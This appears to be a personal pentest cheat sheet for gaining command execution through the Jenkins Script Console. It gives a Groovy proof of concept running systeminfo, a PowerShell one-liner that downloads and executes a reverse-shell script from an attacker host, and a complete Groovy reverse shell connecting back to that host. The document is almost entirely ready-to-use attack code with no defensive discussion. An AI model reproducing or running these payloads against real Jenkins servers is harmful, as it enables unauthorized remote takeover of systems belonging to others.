 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Manage Jenkins > Script Console

#### POC:
```jenkins - web app
println "cmd.exe /c systeminfo".execute().text
```

#### Powershell rev shell:
Manage Jenkins > Script Console
```jenkins - web app
def command = "powershell -c iex(new-object net.webclient).downloadstring(‘http://$KALI:80/Invoke-PowerShellTcp.ps1')"  
def proc = command.execute()  
println(proc.in.text)
```

#### CMD rev shell:
Manage Jenkins > Script Console
```jenkins - web app
String host="$KALI";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

